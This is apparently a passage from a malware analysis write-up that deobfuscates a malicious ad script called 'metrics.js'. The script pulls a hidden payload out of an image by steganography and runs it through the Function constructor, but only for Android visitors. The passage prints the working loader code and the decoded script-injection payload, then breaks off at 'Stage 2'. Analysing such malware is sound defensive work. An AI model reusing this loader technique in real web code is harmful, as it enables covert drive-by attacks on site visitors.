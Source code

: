 ```
b('0xf','xBPx')  => info
b('0x10','yDXL') => console
b('0x11','IDtv') => error
b('0x12','oBBn') => console
b('0x13','^aQK') => exception
b('0x14','F#*Z') => console
b('0x15','vH0t') => trace
b('0x16','%RuL') => constructor
b('0x17','jAUm') => getElementById
b('0x18','3hyK') => adimg
b('0x19','F#*Z') => onload
b('0x1a','OfTH') => decode
b('0x1b','JQ&l') => test
b('0x1c','IfD@') => userAgent
```

After the `b` function, there are three functions which seem to be anti-debugger, since they cause infinite loops and replace `console` functions. Finally, after replacing all the `b` calls, we come to the final part of the `metrics.js` script:

```js
var s = 'constructor';
var t = document['getElementById']('adimg');
t['onload'] = function() {
  try {
    var u = steg['decode'](t);
  } catch (v) {}
  if (Number(/android/i ['test'](navigator['userAgent']))) {
    s[s][s](u)();
  }
};
```

The `s[s][s]` bit is basically `eval`:

```js
>>> s
"constructor"
>>> s[s]
ƒ String() { [native code] }
>>> s[s][s]
ƒ Function() { [native code] }
```

`u`, the result of the steganography decoding of the `adimg` picture is executed if `android` is found in the visitor's `User-Agent` string. The result of the decoding is (with minor formatting adjustments):

```js
var dJs = document.createElement('script');
dJs.setAttribute('src','./src/uHsdvEHFDwljZFhPyKxp.js');
document.head.appendChild(dJs);
```

### Stage 2
